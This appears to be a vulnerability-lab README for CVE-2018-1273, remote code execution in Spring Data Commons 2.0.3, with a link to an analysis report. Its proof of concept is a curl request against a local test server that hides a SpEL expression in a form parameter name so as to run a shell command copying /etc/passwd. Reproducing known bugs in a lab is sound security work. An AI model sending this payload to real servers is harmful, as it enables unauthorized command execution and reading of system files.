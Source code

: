 ## CVE-2018-1273: RCE with Spring Data Commons

测试镜像

* src/spring-data-commons/2.0.3/

参考链接

* [【漏洞分析】CVE-2018-1273: RCE with Spring Data Commons 分析报告](http://blog.nsfocus.net/cve-2018-1273-analysis/)

Poc

```
curl http://127.0.0.1/users --data 'username[T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")/abc]=123&password=123&repeatedPassword=123'
```


